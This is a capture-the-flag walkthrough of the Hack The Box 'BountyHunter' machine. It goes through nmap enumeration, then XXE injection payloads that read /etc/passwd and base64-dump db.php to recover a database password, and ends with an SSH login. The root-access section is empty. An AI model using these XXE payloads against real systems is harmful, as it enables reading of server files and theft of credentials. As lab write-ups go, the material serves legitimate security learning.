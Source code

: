 # Hack The Box - BountyHunter

## This is my Writeup and walkthrough for BountyHunter machine  from Hack The Box.

![htb-bountyhunter](https://user-images.githubusercontent.com/36403473/137606272-577870e0-1b1f-44ee-86cf-046a5988d6a0.png)
## `Enumeration`
   
#### 1-Nmap 
```
nmap -sC -sV -Pn 10.10.11.100
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-16 22:13 EET
Nmap scan report for 10.10.11.100
Host is up (0.14s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Bounty Hunters
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
## `User acess` 

####  2- HTTP service
![screen1](https://user-images.githubusercontent.com/36403473/137603151-2db01eea-e091-4985-9781-6e9d032001ef.png)


hh don't worry i will use burp😂😂<br>

okey my methodology to `know what is this product do ` and i got that this platform for bug bounty okay let's brute force directories to see what is important so i usually use `dirsearch` for Quick  bruteforce 

![screen2](https://user-images.githubusercontent.com/36403473/137603143-e9940b1a-a1e9-497c-b49e-45d5643621fd.png)
 
lets check `/resources/` directory

![screen3](https://user-images.githubusercontent.com/36403473/137603536-1b20f1ca-87b6-4d89-be54-99ca3f778baa.png)

by checking `bountylog.js` it seems a juicy file 
![screen4](https://user-images.githubusercontent.com/36403473/137603145-57cda49b-1751-4183-a913-2664bd15b48a.png)

**now lets analys this piece of code:** 

we notic data is sent to server  in `data` parameter in **xml** format so it seems **xml injection** 

so lets visit `tracker_diRbPr00f314.php`
![screen5](https://user-images.githubusercontent.com/36403473/137603146-d04cd586-f889-4833-9a2d-a5b4bda3ca21.png)

its include i think data that send to server lets open `burpsuite` to check request 

![screen9](https://user-images.githubusercontent.com/36403473/137604952-ee8822db-86be-45c4-9562-c1b17c212286.png)

very good this include data about your submission like `bug-bounty submission` dont forget this is bug-bounty platform 🧐🧐 

we will add `data` parameter  to request and send xml injection to try to read `/etc/passwd` file 

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>kajskdajd</cwe>
		<cvss>8787</cvss>
		<reward>557575</reward>
		</bugreport>

````
i sent this data in `data` parameter but  i didn't get anything  🧐

okey no problem i made Bounty Report via  `log_submit.php` and it send request to `tracker_diRbPr00f314.php` page but i found my submition trasnport in `data` parameter its encoded  (url&base64)

![screen7](https://user-images.githubusercontent.com/36403473/137603148-3ed9e522-ca06-4c2b-b36c-3a9fcbfd5410.png)

##### thats very good lets encode our xml code and try to inject again 

![screen8](https://user-images.githubusercontent.com/36403473/137605272-2b51d560-7b33-4ef7-9586-5aad5f9fac42.png)

another trick we can do to reverse source code of `db.php` file by using "php://filter/convert.base64-encode/resource=db.php"

```
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=db.php"> ]>
		<bugreport>
		<title>&xxe;</title>
		<cwe>kajskdajd</cwe>
		<cvss>8787</cvss>
		<reward>557575</reward>
		</bugreport>
```
![secreen10](https://user-images.githubusercontent.com/36403473/137605413-b7401f59-fe33-4b58-b1c4-97595127c23e.png)

after decoding this string 

```
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>

```

we got db user name and password actually i don't know what should i do with this credential so i decided to take brake and watch movie.....

`SSH` maybe lets try i thout that this password maybe for `ssh` no another thing to do so lets list all users we got it from `etc/passwd` file and login 

**acullay we can use tools like `hydra` to bruteforce user ** but i make it manually HOW!!

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
``` 
we can check users that have password on machine or Take a look at the uncommon users of Linux  but i recommend it when in small scop why!! not to make firewall if there to detect you ,accully i dont like bruteforce it my last choice 

#### Note that An  **x**   character indicates that encrypted password is stored in /etc/shadow file like `root:x:`

notic `development` user 
#### 3- SSH 
![screen11](https://user-images.githubusercontent.com/36403473/137606008-3e515acb-4ed8-454b-8308-333149468173.png)

## `ROOT acess` 






 

